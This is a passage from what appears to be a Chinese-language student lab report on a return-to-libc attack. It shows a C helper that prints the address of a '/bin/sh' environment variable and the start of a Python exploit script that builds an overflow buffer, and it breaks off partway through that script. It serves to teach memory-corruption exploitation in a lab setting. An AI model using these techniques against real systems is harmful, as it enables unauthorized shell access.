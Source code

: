    `getprt.c`：

   ```c
   #include<stdlib.h>
   #include<stdio.h>
   
   void main(){
   char* shell = getenv("MYSHELL");
   if (shell)
     printf("%x\n", (unsigned int)shell);
   }
   ```

   设置`/bin/sh`的环境变量，获得地址：

   ![getprt](/img/posts/2023-11-20-Return_to_Libc实验报告/images/getprt.png)

   将代码加入到retlib.c中，获取到地址，可以发现地址与`getprt`的地址相同。（如果开启aslr或者两文件名长度不同则会不同）

   ![retlib](/img/posts/2023-11-20-Return_to_Libc实验报告/images/retlib.png)

   ### Task 3: Launching the Attack  

   1. 构造python脚本，进行攻击

      `exploit.py`：

      ```python
      #!/usr/bin/env python3
      import sys
      
      # Fill content with non-zero values
      content = bytearray(0xaa for i in range(300))
      